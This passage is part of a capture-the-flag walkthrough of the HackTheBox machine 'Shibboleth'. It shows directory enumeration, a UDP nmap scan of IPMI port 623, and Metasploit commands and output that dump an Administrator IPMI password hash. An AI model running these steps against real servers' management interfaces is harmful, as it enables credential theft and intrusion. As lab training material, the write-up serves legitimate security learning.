 ```
===============================================================
/assets               (Status: 301) [Size: 317] [--> http://shibboleth.htb/assets/]
/forms                (Status: 301) [Size: 316] [--> http://shibboleth.htb/forms/]
/server-status        (Status: 403) [Size: 279]
Progress: 217816 / 220561 (98.76%)===============================================================
2023/06/27 15:31:07 Finished
===============================================================
```

Since there weren't many leads, I searched a bit more on the Bare Metal BMC Automation thing, because it looked as if it was intentionally left there since the rest of the site is basically Lorem Ipsum.&#x20;

Searching on Hacktricks for Bare Metal BMC reveals that it opens port 623 for UDP traffic using the IPMI protocol.

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi" %}

An `nmap` scan reveals it is open but filtered:

```
$ sudo nmap -sU --min-rate 5000 -p 623 10.128.87.109
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-27 15:37 +08
Nmap scan report for 10.128.87.109
Host is up (0.00039s latency).

PORT    STATE         SERVICE
623/udp open|filtered asf-rmcp

Nmap done: 1 IP address (1 host up) scanned in 2.40 seconds
```

### IPMI Exploit --> Zabbix Creds

Hacktricks uses both Metasploit and `ipmitool` to run certain exploits on this, and we can try all of the exploits there. First, we can enumerate the version and other information:

```
msf6 auxiliary(scanner/ipmi/ipmi_version) > set RHOSTS 10.129.78.109
RHOSTS => 10.129.78.109
msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.129.78.109->10.129.78.109 (1 hosts)
[+] 10.129.78.109:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Then, we can try the dump hashes method on this. Metasploit has a built in wordlist to use for it.&#x20;

```
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set RHOSTS shibboleth.htb
RHOSTS => shibboleth.htb
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.78.109:623 - IPMI - Hash found: Administrator:146a600c02030000d35fd619c358b5972202f43f0d805a59be61999d29fa9cb488c04c7aeb19e6c9a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:2fb52f26c84b9d7fd3972b0f304ac5c70103e63a
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
